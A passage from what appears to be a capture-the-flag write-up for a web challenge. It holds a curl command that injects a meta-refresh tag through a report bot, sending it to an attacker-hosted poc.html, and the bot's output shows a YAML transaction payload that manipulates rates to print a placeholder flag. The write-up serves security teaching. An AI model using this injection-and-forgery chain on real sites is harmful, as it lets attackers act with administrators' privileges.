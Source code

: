 - `exploit.html` submits a request to `admin.php` with our crafted YAML payload.

- `admin.php` processes the transactions and prints the flag from `DYN_FLAG`.




```
┌──(kali㉿kali)-[~/blackhat/writeup/cute_csp/src]
└─$ curl -vv "http://127.0.0.1:5000/report.php?url=http://localhost:5000/index.php?html=%3Cmeta%20http-equiv%3D%22refresh%22%20content%3D%220%3Burl%3Dhttp://172.17.0.1:8000/poc.html%22%3E"

14:02:36.977378 [0-0] * [SETUP] added
14:02:36.977576 [0-0] *   Trying 127.0.0.1:5000...
14:02:36.977811 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
14:02:36.978600 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=1
14:02:36.978633 [0-0] * Connected to 127.0.0.1 (127.0.0.1) port 5000
14:02:36.978699 [0-0] * using HTTP/1.x
14:02:36.978834 [0-0] > GET /report.php?url=http://localhost:5000/index.php?html=%3Cmeta%20http-equiv%3D%22refresh%22%20content%3D%220%3Burl%3Dhttp://172.17.0.1:8000/poc.html%22%3E HTTP/1.1
14:02:36.978834 [0-0] > Host: 127.0.0.1:5000
14:02:36.978834 [0-0] > User-Agent: curl/8.14.1
14:02:36.978834 [0-0] > Accept: */*
14:02:36.978834 [0-0] > 
14:02:36.978975 [0-0] * Request completely sent off
14:02:39.536714 [0-0] < HTTP/1.1 200 OK
14:02:39.537373 [0-0] < Date: Tue, 09 Sep 2025 14:02:36 GMT
14:02:39.537716 [0-0] < Server: Apache/2.4.65 (Debian)
14:02:39.538040 [0-0] < X-Powered-By: PHP/8.3.25
14:02:39.538353 [0-0] < Vary: Accept-Encoding
14:02:39.538730 [0-0] < Transfer-Encoding: chunked
14:02:39.539021 [0-0] < Content-Type: text/html; charset=UTF-8
14:02:39.539312 [0-0] < 
<pre>[xssbot] visiting url
--------------------------------
<head></head><body><pre>11111
fgc- amount: 1000000
  currency: ZZZ
  op: BUY
- amount: 1000000
  currency: ZZZ
  op: SELL
- amount: 1
  currency: FL
  op: BUY

22222
urlhttp://localhost:5000/admin.php/../index.php?html=-%20amount%3A%201000000%0A%20%20currency%3A%20ZZZ%0A%20%20op%3A%20BUY%0A-%20amount%3A%201000000%0A%20%20currency%3A%20ZZZ%0A%20%20op%3A%20SELL%0A-%20amount%3A%201%0A%20%20currency%3A%20FL%0A%20%20op%3A%20BUY%0A
33333
Transactions Processing Sheet
--------------------------
- 1000000x ZZZ (Rate: 0.0) =   0
+ 1000000x ZZZ (Rate: 0.0) =   0
-  1x FL (Rate: 1000000.0) = 1000000
Final Inventory ZZZ   : 0
Final Inventory FL    : BHFlagY{this_is_a_flag}

</pre></body>
--------------------------------
[xssbot] complete
14:02:39.589087 [0-0] * Connection #0 to host 127.0.0.1 left intact
[xssbot] total request time: 2.6081161499023 seconds</pre>
```
